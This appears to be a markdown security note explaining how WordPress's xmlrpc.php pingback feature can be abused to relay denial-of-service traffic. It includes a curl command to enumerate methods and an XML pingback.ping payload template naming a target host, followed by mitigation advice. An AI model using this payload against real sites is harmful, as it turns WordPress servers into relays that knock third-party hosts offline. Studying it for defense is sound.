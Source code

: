 # Denial of Service

### Purpose / Concept
- The xmlrpc.php endpoint can be abused to perform a denial-of-service attack. A small request to this endpoint can cause WordPress to respond by sending a full page of content to a target of the attacker’s choosing. By coordinating multiple WordPress sites, the combined traffic can overwhelm the target host, potentially knocking it offline due to network congestion.

### Enumerating available methods
- Before exploiting pingback, the attacker enumerates the methods supported by xmlrpc.php using:

```
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://examplewp.com/xmlrpc.php
```

- The server responds with an XML list of methods, for example:

```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
**** truncated ****
```

- The presence of pingback.ping indicates that pingbacks are enabled.

### Crafting the pingback request
If pingback is enabled, a request can be sent specifying:

- Target URL → the site the attacker wants to DDoS

- Source URL → the WordPress blog sending the pingback

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://**denial-of-service-target**:**portno**</string></value>
</param><param><value><string>http://**blog-url-from-wp**</string>
</value></param></params>
</methodCall>
```

### Effect of the attack
- Multiple WordPress sites sending pingbacks to the same target can generate enough traffic to cause network congestion and downtime. Your WordPress site acts as an unwitting relay, not the actual target.

# Defense / mitigation

- Disable access to xmlrpc.php if the API is not needed.

- Use .htaccess or web server configuration to block the endpoint.

- This prevents pingback abuse and reduces bot traffic/noise in your logs.

# Referances
- https://blog.sucuri.net/2014/03/more-than-162000-wordpress-sites-used-for-distributed-denial-of-service-attack.html
- https://hackerone.com/reports/752073
